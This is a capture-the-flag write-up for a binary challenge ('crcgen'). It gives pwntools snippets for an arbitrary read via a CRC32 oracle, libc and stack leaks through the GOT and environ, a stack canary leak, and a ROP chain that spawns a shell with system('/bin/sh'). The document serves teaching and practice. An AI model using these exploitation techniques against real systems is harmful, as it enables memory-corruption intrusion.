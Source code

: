 
## Introduction

Crcgen is a REALLY cool challenge!
In this challenge we do not get source code, we get only the binary.
The code get a user input and prints the crc32 of it.

There are several stack buffer overflow, but the problem is the `binary deffenses`
![checksec.png](images/checksec.png)

We can't overflow buffers since canary is enabled.
an arbitrary write would also wont be easy to use since `full relro`

# Arbitrary Read
Lets take a look at the code:
![buffer_alloc.png](images/buffer_alloc.png)

First they are allocating the buffer on the heap, 
and then they are doing
```c
user_buffer[32] = user_buffer
```

Which might be interesting.
![calc.png](images/calc.png)

Thats a really interesting part!
They putting as the buffer to calc crc, `user_buffer[32]`
which holds the address to `user_buffer`
so basicly they are putting the address to the buffer.

but what if, we would override `buffer[32]` ?
We can calculate the `crc32` of any address!

Since its only 4 bytes, u can bruteforce the crc and get the actual data.
Also with some effort, u could use a nice algorithm to reverse a crc without bruteforce it :)
(its possible for 4 bytes and less)

Leak data:
```python
p.sendline(256*b'a' + p64(addr + i*4))
p.recvuntil(b"CRC is:")
crc = p.recvline().decode().strip()
value = u32(reverse_crc32(int(crc, 16)))
```

We are putting `256*'a'` in order to get to `user_buffer[32]` then putting the address we want to read from, we will get the `crc` and reverse it!
## Leak libc

So we have arbitrary read, whats now?
we can read the `got` entry for `puts` and calculate the offset and get the address of `libc`!

```python
puts_addr = leak_addr(p, crcgen.sym["got.puts"])
libc.address = puts_addr - puts_from_libc_offset
return libc.address
```

## Leak canary

After playing with this for a while, i got to the point which i cant find another primitive, and then i got the idea of just leaking the canary and use a regular stack overflow!
but how could we get a stack leak?!

## Environ

In `libc` there is a symbol called `environ` which just holds the value of the third argument to `main` which is `char** envp`
so, if we read this value, we can get a stack leak!

![environ_objdump.png](images/environ_objdump.png)
## Leak canary
![canary_offset.png](images/canary_offset.png)

We can read the `environ` variable, and then just calculate the offset from the canary.
on my local machine its `0x130`
You will need to change it on the remote, after i played in the remote a bit it should be `0x128`

```python
global libc
environ = libc.sym["environ"]
environ = leak_addr(p, environ)
return environ - 0x128
```

Now we have the address of the canary, reading `environ - 0x128` will give us the canary value!
We can try to override the stack canary and look in gdb what happent:
![canary_cyclic.png](images/canary_cyclic.png)

so in `get_user_input` we need to submit `88` characters, then the value of the leaked canary.

![ret_addr_offset.png](images/ret_addr_offset.png)

And here we can see, the ret address is after 104 bytes!

## ROP Chain

We have the address of libc, the canary value, and all the offsets.
We want to call `system("/bin/sh")`
but we are on `64bit` which means, the parameters pass through registers,
So we first need to put the address of "/bin/sh" in `rdi`

![pop_rdi_gadget.png](images/pop_rdi_gadget.png)
Sounds fun!

so:
```
'a'*88 + canary + 'a'*(104-<current_payload_length>) + pop_rdi + binsh_addr + system_addr 
```

```python
global libc

ret_offset = 104
canary_buffer_offset = 88

rop = ROP([crcgen, libc])
rop.call(libc.sym['system'], [next(libc.search(b"/bin/sh"))])
print(rop.dump())

payload = b'a'*canary_buffer_offset + p64(canary_value)
payload += b'a'*(ret_offset-len(payload)) + rop.chain()

return payload
```

And thats it!

![win.png](images/win.png)